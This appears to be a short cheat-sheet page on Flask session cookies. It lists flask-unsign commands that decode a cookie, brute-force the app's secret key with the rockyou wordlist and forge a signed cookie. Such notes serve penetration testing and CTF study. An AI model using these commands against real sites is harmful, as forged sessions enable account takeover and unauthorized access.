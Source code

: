 ```yaml
---
title: "Flask Cookie"
date: 2024-6-27
tags: ["flask", "python", "cookie", "sign", "unsign"]
---
```


---
### Cookie Tools

{{< tab set1 tab1 active >}}flask-unsign{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Install
pip3 install flask-unsign
```

```bash
# Decode flask cookie
flask-unsign --decode --cookie <COOKIE>
```

```bash
# Brute force secret key
flask-unsign --unsign --cookie <COOKIE> -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```bash
# Forge flask cookie
flask-unsign --sign --cookie <COOKIE_DATA> --secret <SECRET>
```

</div>

{{< /tabcontent >}}

<br>